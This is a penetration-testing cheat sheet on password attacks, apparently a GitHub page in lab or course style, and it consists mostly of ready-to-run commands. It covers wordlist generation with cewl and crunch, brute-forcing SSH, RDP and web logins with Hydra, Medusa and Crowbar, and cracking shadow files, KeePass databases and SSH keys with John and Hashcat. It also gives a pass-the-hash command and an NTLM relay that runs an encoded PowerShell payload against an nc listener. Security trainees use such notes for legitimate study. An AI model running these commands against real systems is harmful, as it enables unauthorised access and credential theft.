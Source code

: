 ### Cewl
```
cewl https://www.tesla.cn -v -a -m(min) 1 -w tesla.txt
```

### Crunch
```
crunch 8(min) 8(max) -t ,@@^^%%%

PLACEHOLDER	CHARACTER TRANSLATION
@	Lower case alpha characters
,	Upper case alpha characters
%	Numeric characters
^	Special characters including space

crunch 4 6 0123456789ABCDEF(char set) -o crunch.txt
```
### Medusa
###### HTTP htaccess Attack with Medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
medusa -d(check out supported modules)
```

### Crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```
### Hydra
>Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
```
hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user(post_form_key)=admin&pass(post_form_key)=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f(stop the attack when the first successful result is found)
```
### Hash Identification
```
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
hashid '$6$l5bL6XIASslBwwUD$bCxeTlbhTH76wE.bI66aMYSeDXKQ8s7JNFwa1s1KkTand6ZsqQKAF3G0tHD9bd59e5NAz/s7DQcAojRTWNpZX0'
```
### Passing the Hash in Windows
>Scenario:
>cracking password hashes can be very time-consuming and is often not feasible without powerful hardware. However, sometimes we can leverage Windows-based password hashes without resorting to a laborious cracking process.  
During our assessment, we discovered a local administrative account that is enabled on multiple systems. We exploited a vulnerability on one of these systems and have gained SYSTEM privileges, allowing us to dump local LM and NTLM hashes. We have copied the local administrator NTLM hash and can now use it instead of a password to gain access to a different machine, which has the same local administrator acount and password
```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```
### Cryptography
> $1$: MD5-based crypt ('md5crypt')  
> $2$: Blowfish-based crypt ('bcrypt')[^bcrypt]  
> $sha1$: SHA-1-based crypt ('sha1crypt')  
> $5$: SHA-256-based crypt ('sha256crypt')  
> $6$: SHA-512-based crypt ('sha512crypt')  

md5sum plain-text, sha1sum plain-text, sha256sum plain-text, sha512sum plain-text  
> https://crackstation.net/ (unsalted hash crack)  
###### Generate salted hash
mkpasswd -m sha512crypt foobar -S "M3vwJPAueK2a1vNM"

###### Symmetric
gpg -c --cipher-algo blowfish blowfish.plain  
gpg --decrypt blowfish.plain.gpg  
gpg -c --cipher-algo aes256 aes256.plain  
gpg --decrypt aes256.plain.gpg

###### Asymmetric 
> https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html  

gpg --gen-key(enter realname--Offsec and email--test@example.com for identification)  
gpg --output example-pub.asc --armor --export Offsec  
gpg --recipient Offsec --encrypt plain.txt  
gpg --decrypt plain.txt.gpg  
gpg --import melanie-private.asc  
gpg --decrypt decrypt-me.gpg(need to enter passphrase)  

###### John the ripper
john --wordlist=rockyou.txt hash  
john -form=dynamic='sha1(md5(sha512($p.$s).$p).$s)' --wordlist=rockyou.txt hash  
john --wordlist=rockyou.txt user_shadow_hash($6$VvN1wBiLLmqWtRXY$oPzxsQbXqdzIISj5NzmKeiUcfXGvFJzqi9YFCzOtdOOI4yOqXm.UBiP7oLeDH8kZUgCtwBwY.YcbqVx7RWlj51)  
john hash.txt --format=NT  
>We have two machines, each with an 8-core CPU. On the first machine we would set the --fork=8 and --node=1-8/16 options, instructing John to create eight processes on this machine, split the supplied wordlist into sixteen equal parts, and process the first eight parts locally. On the second machine, we could use --fork=8 and --node=9-16 to assign eight processes to the second half of the wordlist.

###### John crack shadow file
unshadow /etc/passwd /etc/shadow > unshadowed.txt  
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt  

### Hashcat
```
built-in charset
• ?l = abcdefghijklmnopqrstuvwxyz 
• ?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
• ?d = 0123456789
• ?h = 0123456789abcdef
• ?H = 0123456789ABCDEF
• ?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
• ?a = ?l?u?d?s
• ?b = 0x00 - 0xff 

-w 1 (Light): Low workload intensity, suitable for background tasks.
-w 2 (Medium): A moderate workload intensity.
-w 3 (Normal): The default workload intensity.
-w 4 (Heavy): High workload intensity, which may heavily utilize system resources.
--hwmon-disable would prevent Hashcat from monitoring the GPU's temperature and fan speed

nvidia-smi -i [device-id-integer] -pl [power-level] drop nvidia max power
nvidia-smi -a | egrep '^GPU|  Power Limit|Default Power Limit|Power Draw' check current power limit
```
```
hashcat -a 0(dictionary) -m 13000 hash wordlist -O -w 1
```
###### Combine each char set(114) with each number(1000) = 114000
```
/usr/lib/hashcat-utils/combinator.bin flag2.txt numbers.txt > hash.txt
```
###### MS Cache v2 
```
From : k.smith:0A2503288EFD46133D4082305CF5D2EA:SKYLARK:SKYLARK.COM
To : Format: $DCC2$10240#user#hash
```
###### kdbx
```
keepass2john Database.kdbx > Keepasshash.txt
hashcat -a 0 -m 13400 hash dic 
```
###### nsldap, SHA-1(Base64), Netscape LDAP SHA
```
Format: {SHA}uJ6qx+YUFzQbcQtyd2gpTQ5qJ3s=
HashMode: 101
```
### Hash Identification
If contains special characters
```
hashid 'hash in here'
```
### Cracking ssh private key passphrase
Hashcat
```
ssh2john id_rsa > ssh.hash
```
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/21cf06d5-cdcf-42cd-8f8b-b6ffcebff5ae)

John
```
cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!
c $1 $3 $7 $@
c $1 $3 $7 $#
```
```
sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf' (add a name for the rules and append them to the /etc/john/john.conf)
john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```
### Relaying Net-NTLMv2(when Net-NTLMv2 is too complex to crack)
> This is used when the user in files01 is an unprivileged user but is an local administrator account on files02

> Windows UAC will restrict any user accounts behaviour remotely other than the local administrator
```
kali: impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA...(UTF-16LE base64 encoded payload)"
kali: nc -nvlp 8080
files01: dir \\192.168.119.2\test
```
